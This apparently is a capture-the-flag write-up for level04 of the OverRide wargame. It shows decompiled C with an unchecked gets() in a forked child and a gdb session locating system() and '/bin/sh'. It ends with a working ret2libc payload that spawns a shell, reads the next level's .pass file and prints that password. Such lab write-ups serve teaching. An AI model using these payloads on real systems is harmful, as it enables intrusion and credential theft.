 It looks like a buffer overflow in here, but since it will be inside a child of a fork, so we won't have a segfault.

```c
	int local_a0 [32];

	local_14 = fork();

	if (local_14 == 0) {
		prctl(1,1);
		ptrace(PTRACE_TRACEME,0,0,0);
		puts("Give me some shellcode, k");
		gets((char *)local_a0);
	}
```

After some try, we got this :

```bash
level04@OverRide:~$ cat <(python -c 'print("AAAA" * 40)') - | ./level04 
Give me some shellcode, k
hello
wtf ?!?!
^C
```

The only way of exiting the program was for me to `ctrl+C`
With gdb, we got the same result :

```bash
level04@OverRide:~$ gdb -q level04 
Reading symbols from /home/users/level04/level04...(no debugging symbols found)...done.
(gdb) set follow-fork-mode child
(gdb) run
Starting program: /home/users/level04/level04 
[New process 4241]
Give me some shellcode, k
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 4241]
0x42424242 in ?? ()
```

So, as we did in rainfall, we just need to find the address of system and the string `"/bin/sh"` and we are good to go.

```assembly
(gdb) disas system
Dump of assembler code for function system:
   0xf7e6aed0 <+0>:	sub    $0x1c,%esp
```

```assembly
(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.

```



```bash
level04@OverRide:~$ cat <(python -c 'print("AAAA" * 39 + "\xd0\xae\xe6\xf7" + "IDGB" + "\xec\x97\xf8\xf7")') - | ./level04 
Give me some shellcode, k
whoami
level05
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```

```bash
su level05
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```



